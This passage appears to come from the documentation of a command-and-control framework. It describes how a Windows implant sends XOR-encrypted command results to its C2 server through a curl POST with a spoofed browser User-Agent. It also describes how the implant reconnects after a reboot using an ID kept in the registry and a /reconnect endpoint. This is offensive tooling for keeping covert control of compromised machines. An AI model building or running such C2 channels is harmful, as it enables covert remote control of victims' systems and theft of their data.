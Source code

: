 **Example CURL**:
```bash
curl -X POST "http://server:port/result" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko" \
  -H "X-Correlation-ID: PASIOnodnoqonasond12314" \
  -H "X-Request-ID: <guid>" \
  -H "Content-Type: application/json" \
  -d '{"data": "<base64_encoded_xor_encrypted_result>"}'
```

**Security Considerations**:
- All results are encrypted using the implant's unique XOR key
- Base64 encoding prevents null bytes from breaking HTTP communication
- Headers are validated to ensure proper authentication
- Results are stored securely in the database
- Command status is updated to prevent duplicate submissions

**Error Handling**:
- Invalid headers return 400 Bad Request
- Authentication failure returns 401 Unauthorized
- Invalid GUID returns 404 Not Found
- Server errors return 500 Internal Server Error
---------------------------------------------------------------------------------------------

## Implant Reconnection Flow (How an Implant exchange UNIQUE_XOR_KEY with C2 if process restart or a system reboots happens) - Implant Server

### 1. Reconnect Endpoint (`/reconnect`)

**Purpose**: Handles reconnection of existing implants and provides communication persistence mechanism.

**Methods**: 
- OPTIONS: Reconnection request

**Headers Required**:

| Header | Value | Description |
|--------|-------|-------------|
| X-Request-ID | `<decrypted_guid>` | Decrypted implant GUID |
| User-Agent | `<user_agent>` | Configured user agent |
| X-Correlation-ID | `<http_allow_key>` | HTTP authentication key |

**Reconnection Flow**:

Communication Diagram:
```
+----------------+     +----------------+     +----------------+
|    Implant     |     |Implant Server |     |    SQLite      |
|   (Windows)    |     |   (HTTP/S)    |     |   Database     |
+----------------+     +----------------+     +----------------+
        |                     |                     |
        | Read Registry and   |                     |
        | get Encrypted ID    |                     |
        |                     |                     |
        | Decrypt ID using    |                     |
        | INITIAL_XOR_KEY     |                     |
        |                     |                     |
        | OPTIONS /reconnect  |                     |
        | Headers:            |                     |
        | - X-Request-ID      |                     |
        |   (Decrypted ID)    |                     |
        | - X-Correlation-ID  |                     |
        |   (HTTP Auth Key)   |                     |
```